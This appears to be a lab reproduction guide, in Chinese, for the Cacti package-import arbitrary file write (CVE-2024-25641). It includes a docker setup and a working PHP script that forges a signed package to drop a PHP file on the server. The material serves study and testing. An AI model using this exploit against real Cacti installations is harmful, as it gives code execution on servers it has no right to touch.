



# Cacti 导入包任意写入RCE漏洞（CVE-2024-25641）


Cacti 是一个为全球用户提供强大且可扩展的运营监控和故障管理框架。它还是一个完整的网络绘图解决方案，旨在利用RRDTool的数据存储和绘图功能。Cacti 包括一个完全分布式和容错的数据收集框架、用于设备、图表和树的高级基于模板的自动化功能、多种数据采集方法、通过插件进行扩展的能力、基于角色的用户、组和域管理功能，此外还有一个主题引擎和多种语言支持，所有这些都是开箱即用的。
	Cacti 通过“包导入”功能可利用任意文件写入漏洞，允许具有“导入模板”权限的经过身份验证的用户在 Web 服务器上执行任意 PHP 代码。

**影响版本**：1.2.26

**项目地址**：https://github.com/Cacti/cacti

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88


## 漏洞环境


执行如下命令启动一个cacti-v1.2.25-web服务：

```
docker compose up 
```

服务启动后，访问`http://your-ip:80808/`即可跳转到到cacti安装向导界面。


## 漏洞复现

1. 使用以下PHP脚本生成恶意包

   ```php
   <?php
   
   $xmldata = "<xml>
      <files>
          <file>
              <name>resource/test.php</name>
              <data>%s</data>
              <filesignature>%s</filesignature>
          </file>
      </files>
      <publickey>%s</publickey>
      <signature></signature>
   </xml>";
   $filedata = "<?php phpinfo(); ?>";
   $keypair = openssl_pkey_new(); 
   $public_key = openssl_pkey_get_details($keypair)["key"]; 
   openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
   $data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
   openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
   file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
   system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");
   
   ?>
   ```

   2. 使用具有“导入模板”权限的用户登录 Cacti 转到**导入/导出**->**导入包** 上传并导入`test.xml.gz`之前生成的文件

      

3. 通过**http://[cacti]/resource/test.php**访问：

   